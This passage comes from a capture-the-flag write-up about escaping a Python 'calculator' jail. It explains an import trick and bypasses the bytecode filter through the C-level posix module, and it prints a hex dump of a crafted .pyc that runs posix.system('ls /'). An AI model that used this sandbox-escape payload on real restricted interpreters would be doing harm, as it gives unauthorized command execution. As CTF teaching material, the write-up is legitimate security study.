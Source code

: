 ```python  
import aa  
from jdxvpDpUMSmJhoNpToLJ import a  
a  
```

Their full solution code is available
[here](https://gist.github.com/OlfillasOdikno/0694e3e38ba75760281c771bd4a9d00a).
I could have prevented this solution by disallowing `IMPORT_FROM`, but then
the inclusion of `IMPORT_NAME` becomes even more contrived, and this is a cool
piece of trivia, so I have no regrets.

## Finishing up

Now that we have unrestricted bytecode execution, it should be as simple as
`import os; os.system("cat /flag-*")`, right? Wrong!

```  
[kmh@kmh ~]$ nc dicec.tf 31337  
Welcome to the TI-1337 Plus CE!  
Enter your username: kmh13377894219885  
1. Start new session  
2. Restore session  
What would you like to do? 1  
Session name: 1  
You can use variables and math operations. Results of expressions will be
outputted.  
Enter your calculations:  
> import os  
>  
Hey, that's not math!  
```

Code in `os` still hits the opcode filtering switch statement. Fortunately,
CPython comes in with a bunch of [modules written in
C](https://github.com/python/cpython/tree/master/Modules) that don't go
through the Python interpreter. One of these is the `posix`, which is what
implements most of the functionality of `os`. Here's the final pyc:

```  
00000000  61 0d 0d 0a 01 00 00 00  00 00 00 00 00 00 00 00  |a...............|  
00000010  63 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |c...............|  
00000020  00 03 00 00 00 40 00 00  00 73 1a 00 00 00 64 00
|[email protected].|  
00000030  64 01 6c 00 5a 00 65 00  09 c3 a0 01 64 02 09 c3  |d.l.Z.e.....d...|  
00000040  a1 01 01 00 64 01 53 00  29 03 69 00 00 00 00 4e  |....d.S.).i....N|  
00000050  7a 04 6c 73 20 2f 29 02  5a 05 70 6f 73 69 78 5a  |z.ls /).Z.posixZ|  
00000060  06 73 79 73 74 65 6d 29  00 29 00 29 00 7a 14 69  |.system).).).z.i|  
00000070  44 52 69 35 4d 77 36 79  58 49 34 58 63 54 48 66  |DRi5Mw6yXI4XcTHf|  
00000080  68 32 41 5a 08 3c 6d 6f  64 75 6c 65 3e 01 00 00  |h2AZ.<module>...|  
00000090  00 73 02 00 00 00 08 01                           |.s......|  
00000098  
```
